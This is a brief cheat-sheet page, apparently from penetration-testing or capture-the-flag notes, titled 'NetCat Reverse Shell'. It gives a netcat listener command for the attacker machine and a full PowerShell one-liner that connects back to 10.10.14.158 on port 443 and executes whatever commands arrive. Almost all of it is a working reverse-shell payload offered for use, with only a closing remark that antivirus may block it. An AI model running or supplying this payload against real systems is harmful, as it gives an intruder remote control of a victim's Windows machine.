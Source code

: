 # NetCat Reverse Shell

Establish a simple Reverse Shell on a Windows target.

**Start the NetCat listener on the attacker machine:**

```shell
clue@machine[/]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

**Run the Payload on the target Windows machine:**

```shell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

| Note                                            |
| ----------------------------------------------- |
| Windows AV will definetly block this execution. |
